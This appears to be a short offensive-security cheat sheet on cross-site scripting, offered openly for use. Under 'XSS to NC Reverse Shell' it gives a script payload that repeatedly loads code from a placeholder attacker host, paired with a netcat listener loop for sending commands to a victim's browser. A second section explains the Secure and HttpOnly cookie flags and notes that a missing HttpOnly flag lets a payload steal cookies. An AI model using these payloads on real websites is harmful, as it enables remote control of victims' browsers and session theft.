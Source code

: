 ### XSS to NC Reverse Shell
```
<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//your-kali-linux-ip:4444";d.body.appendChild(z)},0)</script>

while :; do printf "zemo>$ "; read c; echo $c | nc -vvlp PORTNUMBER >/dev/null; done {type in kali linu}
```

### XSS to steal cookie
>The Secure3 flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

>The HttpOnly4 flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.
